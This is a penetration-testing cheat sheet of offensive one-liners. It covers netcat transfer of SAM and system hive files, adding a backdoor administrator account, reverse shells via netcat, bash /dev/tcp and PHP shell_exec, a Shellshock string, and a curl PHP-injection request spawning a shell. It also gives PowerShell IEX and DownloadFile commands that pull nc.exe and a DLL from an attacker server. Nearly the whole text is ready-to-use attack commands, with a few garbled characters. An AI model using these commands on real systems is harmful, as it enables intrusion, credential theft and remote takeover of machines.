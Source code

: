 NetCat File Transfer
--------------------
      Sending Machine:   nc.exe x.x.x.x 1236 < sam.save
      Receiving Machine: nc -nvlp 1236 > system.save

      nc x.x.x.x 1236 < accesschk.exe
      nc.exe -nlp 1236 > accesschk.exe

Adding an Elevated User
-----------------------
      net user hax0r hax0r /add && net localgroup Administrators hax0r /add

Spawning shell with nc
----------------------  
      ./nc.exe -nv x.x.x.x 1316 -e cmd.exe
      nc -e /bin/sh x.x.x.x 1234

Bin/bash Shell
--------------
      ­‐t "() { :; }; /bin/bash"    
      python -c 'import pty; pty.spawn("/bin/bash")'  

Simple PHP Command Injection
----------------------------
      <?php system(“whoami“); ?>
      <?php system("ls -la"); ?> 
      <?php echo exec("ls -la"); ?> 
      <?php echo shell_exec(“ls -la“); ?>
      <?php echo shell_exec('bash -i >& /dev/tcp/192.168.30.31/12345 0>&1'); ?>


      bash -i >& /dev/tcp/x.x.x.x/1234 0>&1
      curl -s --data "<?system('nc -lvp 1234 -e /bin/sh');?>" "http://x.x.x.x/internal/advanced_comment_system/admin.php?ACS_path=php://input%00"

Windows Powershell
------------------
Nishang -PS reverse tcp.

Copy the **.Example** to the bottom of the script

      Invoke-PowershellTcp -Reverse -IPAddress x.x.x.x -Port 1234

Downloading from PS prompt

      IEX(New-Object Net.Webclient).downloadString('http://x.x.x.x:8000/nc.exe')
      (New-Object System.Net.WebClient).DownloadFile("http://x.x.x.x:8000/nc.exe", "C:\Windows\Temp\Privesc\nc.exe")  
      (New-Object System.Net.WebClient).DownloadFile("http://x.x.x.x:8000/wlbsctrl.dll", "C:\Windows\Temp\Privesc\wlbsctrl.dll")  
      
Downloading via code Injecton

      C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).downloadString('http:/x.x.x.x:8000/wlbsctrl.dll')
      C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (New-Object Net.Webclient).downloadFile('http://x.x.x.x:8000/nc.exe', 'C:\Python\nc.exe')
